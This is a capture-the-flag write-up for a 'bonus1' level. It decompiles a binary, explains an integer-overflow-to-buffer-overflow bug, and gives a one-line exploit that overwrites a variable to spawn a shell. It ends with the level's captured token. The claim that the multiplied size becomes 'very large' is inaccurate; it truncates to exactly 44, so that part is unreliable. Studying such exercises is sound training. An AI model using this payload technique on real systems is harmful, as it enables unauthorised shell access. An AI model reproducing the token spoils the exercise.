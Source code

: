 # Bonus1

1. Decompilation with Ghidra

    ```c
    undefined4 main(undefined4 param_1, int param_2)
    {
    undefined4 uVar1;
    undefined1 local_3c [40];  // buffer de 40 octets
    int local_14;              // variable pour stocker le nombre
    
    local_14 = atoi(*(char **)(param_2 + 4));  // argv[1] converti en int
    if (local_14 < 10) {                        // doit être < 10
        memcpy(local_3c, *(void **)(param_2 + 8), local_14 * 4);  // copie argv[2]
        if (local_14 == 0x574f4c46) {             // si == 1464814662
        execl("/bin/sh","sh",0);                 // SHELL !
        }
        uVar1 = 0;
    }
    else {
        uVar1 = 1;
    }
    return uVar1;
    }
    ```

2. The Vulnerability: Integer Overflow

    The program has multiple issues:

    1. **Signed Integer Check**: The program checks `local_14 < 10`, but `local_14` is a **signed integer**
    2. **Integer Multiplication**: `memcpy` uses `local_14 * 4` as the size parameter
    3. **Win Condition**: If `local_14 == 0x574f4c46` (1464814662), it spawns a shell


    ```
    [buffer: 40 bytes]  <- local_3c (at ebp-0x3c)
    [local_14: 4 bytes] <- at ebp-0x14
    ```

    Distance: `0x3c - 0x14 = 0x28 = 40 bytes`

3. Exploitation

    1. **Use a negative number** for `argv[1]` to pass the check `< 10`
    2. **Integer overflow** on multiplication: negative × 4 wraps to a large positive number
    3. **Buffer overflow** via `memcpy` to overwrite `local_14`
    4. **Overwrite `local_14`** with `0x574f4c46` to trigger shell execution

    We need a number `N` such that:

    - `N < 10` (passes the check)
    - `N * 4` overflows to a value ≥ 44 (to copy enough bytes)
    - We can write 40 bytes of padding + 4 bytes of `0x574f4c46`

    **Solution**: `-2147483637`

    - This is close to `INT_MIN` (-2147483648)
    - When multiplied by 4: `-2147483637 * 4 = -8589934548`
    - Due to 32-bit integer overflow, this wraps around to a large positive value
    - This allows `memcpy` to copy at least 44 bytes

    ```
    [40 bytes padding] + [0x574f4c46 in little-endian]
        "A" × 40     +    \x46\x4c\x4f\x57
    ```

    ```bash
    ./bonus1 -2147483637 $(python -c 'print "A"*40 + "\x46\x4c\x4f\x57"')
    ```

4. Execution Flow

    1. `atoi(argv[1])` converts "-2147483637" to integer `local_14 = -2147483637`
    2. Check passes: `-2147483637 < 10` ✓
    3. `memcpy(local_3c, argv[2], -2147483637 * 4)` is called
    4. Integer overflow makes the size very large, copying our entire payload
    5. Buffer overflows and overwrites `local_14` with `0x574f4c46`
    6. Condition `local_14 == 0x574f4c46` is true
    7. `execl("/bin/sh")` spawns a shell
    8. Read `/home/user/bonus2/.pass`

5. Token discovered

    The token is: `579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245`
